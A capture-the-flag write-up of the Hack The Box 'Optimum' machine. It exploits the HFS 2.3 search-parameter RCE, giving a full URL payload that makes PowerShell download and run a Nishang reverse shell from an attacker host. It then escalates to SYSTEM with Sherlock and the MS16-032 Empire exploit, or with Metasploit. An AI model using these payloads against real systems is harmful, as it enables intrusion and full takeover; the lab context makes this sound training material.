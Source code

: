 ```yaml
---
"title": "Hack The Box - Optimum"
"date": 2020-02-26
"tags": ["windows", "easy", "sherlock", "empire", "rce", "nishang"]
"keywords": ["windows", "easy", "sherlock", "empire", "rce", "nishang"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "We are going to pwn Optimum from Hack The Box."
"featured_image": "/img/htb-optimum/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/6](https://www.hackthebox.eu/home/machines/profile/6)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP Enumeration

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![Untitled](/img/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![Untitled](/img/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using `/?search=%00{.exec|cmd.}` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.[br/](br/)
![Untitled](/img/htb-optimum/4.png)[br/](br/)
This not only load the module but also the shell give me a callback.

## Getting User Shell

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.[br/](br/)
![Untitled](/img/htb-optimum/5.png)[br/](br/)

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```
/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}
```

With URL encoded I passed it to burp.[br/](br/)
![Untitled](/img/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.[br/](br/)
![Untitled](/img/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![Untitled](/img/htb-optimum/8.png)

## Privilege Escalation

Once I got a shell the first thing I check is ``systeminfo``

![Untitled](/img/htb-optimum/20.png)[br/](br/)
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

`Sherlock.ps1`

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.[br/](br/)
![Untitled](/img/htb-optimum/9.png)[br/](br/)
![Untitled](/img/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.[br/](br/)
![Untitled](/img/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![Untitled](/img/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``[br/](br/)
![Untitled](/img/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![Untitled](/img/htb-optimum/14.png)

We are System!!

## Method II (Using Metasploit)

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT[br/](br/)
![Untitled](/img/htb-optimum/15.png)

![Untitled](/img/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``[br/](br/)
![Untitled](/img/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![Untitled](/img/htb-optimum/18.png)[br/](br/)
![Untitled](/img/htb-optimum/19.png)

We got authority\system !! 